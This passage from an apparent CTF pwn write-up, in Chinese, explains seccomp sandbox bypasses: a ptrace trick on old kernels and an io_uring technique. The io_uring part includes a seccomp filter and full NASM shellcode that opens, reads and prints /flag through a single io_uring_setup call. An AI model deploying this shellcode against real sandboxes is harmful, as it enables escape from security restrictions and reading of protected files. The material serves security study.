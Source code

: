 ## ptrace

这里只提供一种思路：在没有禁用 ptrace 的情况下，在早期版本的 kernel 中可以用 fork 等系统调用另起一个进程，借助父进程 ptrace 子进程，当监测到子进程发生某个系统调用时，捕获该行为并修改系统调用号实现 seccomp 等绕过，github 上有开源的 poc 代码 [4]。

经过在 linux 源码仓库中的分析，可以定位到该问题在 `commit-58d0a862f573c3354fa912603ef5a4db188774e7` 中被披露，在 2016 年 6 月 15 号的一系列 commit 中被修复：`ptrace: run seccomp after ptrace`。

## io_uring

`io_uring` 的绕过和此前利用 fsmount 绕过对 mount 系统调用的禁用一样，并不是一个 linux 的 bug，而是编写 seccomp 黑名单规则时忽略了新版本加入的系统调用，借助 io_uring，可以只用一个系统调用完成上述的 orw（open、read、write）操作 [5]，这是此前版本中难以实现的事情。

在如下沙箱规则中，只允许 `io_uring_setup` 系统调用：

```nasm
void sandbox() {
    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, 4),
        BPF_JUMP(BPF_JMP + BPF_JEQ, 0xc000003e, 0, 3),
        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, 0),
        BPF_JUMP(BPF_JMP + BPF_JGE, 0x40000000, 1, 0),
        BPF_JUMP(BPF_JMP + BPF_JEQ, 0x1a9, 1, 0),
        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),
        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
    };
    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
        .filter = filter,
    };
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
}
```

先了解一下 `io_uring`**，**是 Linux 内核提供的一种高效的异步 I/O 操作接口，旨在减少系统调用的开销并提供更高的 I/O 性能。SQE 是其中重要的概念，即提交队列元素。而在 linux 内核版本 6.5 之后，`io_uring_setup` 系统调用增加了 `IORING_SETUP_NO_MMAP` flag，这使得单独一个系统调用完成 open+read+write（还可以支持 socket）成为可能：

```nasm
	[BITS 64]

	struc    io_uring_params
	sq_entries resd 1
	cq_entries resd 1
	io_uring_params_flags  resd 1
	sq_thread_cpu resd 1
	sq_thread_idle resd 1
	features resd 1
	wq_fd resd 1
	io_uring_params_resv resd 3
	;        struct io_sqring_offsets
	sqoff_head resd 1
	sqoff_tail resd 1
	sqoff_ring_mask resd 1
	sqoff_ring_entries resd 1
	sqoff_flags resd 1
	sqoff_dropped resd 1
	sqoff_array resd 1
	sqoff_resv1 resd 1
	sqoff_user_addr resq 1
	;        struct io_cqring_offsets
	cqoff_head resd 1
	cqoff_tail resd 1
	cqoff_ring_mask resd 1
	cqoff_ring_entries resd 1
	cqoff_flags resd 1
	cqoff_dropped resd 1
	cqoff_array resd 1
	cqoff_resv1 resd 1
	cqoff_user_addr resq 1
	endstruc

	struc io_uring_sqe
	sqe_opcode resb 1
	sqe_flags resb 1
	sqe_ioprio resw 1
	sqe_fd resd 1
	sqe_off resq 1
	sqe_addr resq 1
	sqe_len resd 1
	sqe_axu_flags resd 1
	sqe_user_data resq 1
	sqe_buf_index resw 1
	sqe_personality resw 1
	sqe_file_index resd 1
	sqe_pad2 resq 2
	endstruc

	%define __x64_sys_io_uring_setup       0x1a9
	%macro  io_uring_setup 2; (u32, entries, struct io_uring_params __user *, params)
	push    __x64_sys_io_uring_setup
	pop     rax
	push    %1
	pop     rdi
	push    %2
	pop     rsi
	syscall
	%endmacro

	%define DEPTH                   (0x10)
	%define IORING_SETUP_NO_MMAP (1 << 14)
	%define IORING_SETUP_SQPOLL (1 << 1)
	%define IORING_OP_OPENAT        (18)
	%define IORING_OP_READ          (22)
	%define IORING_OP_SOCKET        (45)
	%define IORING_OP_CONNECT       (16)
	%define IORING_OP_WRITE         (23)

	global  _start
	section .text

	%define base rbp

_start:
	;   Setup base for locatation
	mov base, rbx
	lea rsi, [base + uring_params]
	;   Setup sq_ring and sqe_ring
	mov dword [rsi + sqoff_user_addr], 0xc0d3000 + 0x1000; rings
	mov dword [rsi + cqoff_user_addr], 0xc0d3000 + 0x2000; sq_sqes
	mov dword [rsi + sq_thread_idle], 2000000; sq_thread_idle
	mov dword [rsi + io_uring_params_flags], IORING_SETUP_NO_MMAP | IORING_SETUP_SQPOLL; flags

	;   Save sq_ring
	mov dword [base + sq_ring], 0xc0d3000 + 0x2000
	;   Save sqe_ring
	mov dword [base + sqe_ring], 0xc0d3000 + 0x1000

	;   Setup sq_array
	mov rax, [base + sq_ring]
	mov rbx, 0x40 + DEPTH * 2 * 0x10
	add rax, rbx
	mov rcx, 0

loop_set:
	mov [rax], rcx
	add rcx, 0x1
	add rax, 0x4
	cmp rcx, DEPTH
	jb  loop_set

	;   SQE 1: open("/flag")
	mov rax, [base + sqe_ring]
	;   add rax, 0x40
	mov rbx, (-100 << 32) | (0x0000 << 16) | (0x04 << 8) | IORING_OP_OPENAT
	mov qword [rax], rbx
	lea rbx, [base + flag_name]
	;   sqe_addr: file to open / sqe_len: open_mode / sqe_axu_flags: open_flags
	mov qword [rax + sqe_addr], rbx

	;   SQE 2: read(4, flag_data, 0x100)
	add rax, 0x40
	mov rbx, (4 << 32) | (0x0000 << 16) | (0x04 << 8) | IORING_OP_READ
	mov qword [rax], rbx
	lea rbx, [base + flag_data]
	;   sqe_addr:
	mov qword [rax + sqe_addr], rbx
	mov qword [rax + sqe_len], 0x100

	;   SQE 4 : write(1, flag_data, 0x100)         fd | prio | flags | opcode
	add rax, 0x40
	mov rbx, (1 << 32) | (0x0000 << 16) | (0x00 << 8) | IORING_OP_WRITE
	mov qword [rax], rbx
	lea rbx, [base + flag_data]
	;   sqe_addr:
	mov qword [rax + sqe_addr], rbx
	mov qword [rax + sqe_len], 0x100

	;   update sq_ring -> tail
	mov rax, [base + sq_ring]
	;   mov rbx, [base + uring_params + sqoff_tail]
	mov rbx, 4
	add rax, rbx
	mov dword [rax], 5

	;   Save io_uring fd
	io_uring_setup DEPTH, rsi
	mov [base + ring_fd], rax

	jmp $

	flag_name db "/flag", 0
	ring_fd    dd 0
	sq_ring     dq 0
	sqe_ring    dq 0
	dq 0

uring_params:
	istruc io_uring_params
	iend

flag_data:

```

使用 nasm -f bin 来生成二进制程序注入目标程序完成利用。

# References

1. [ALPHA3: Alphanumeric shellcode encoder . _SkyLined_](https://github.com/SkyLined/alpha3)

2. [仅用三种字符实现 x86*64 架构的任意 shellcode . \_loop*](https://www.anquanke.com/post/id/256530)

3. [PoC for bypassing seccomp if ptrace is allowed . _thejh_](https://gist.github.com/thejh/8346f47e359adecd1d53)

4. [JQCTF-2023: from1toN . _N1ghtu_](https://github.com/Nu1LCTF/jqctf2023/tree/main/pwn/from1toN)
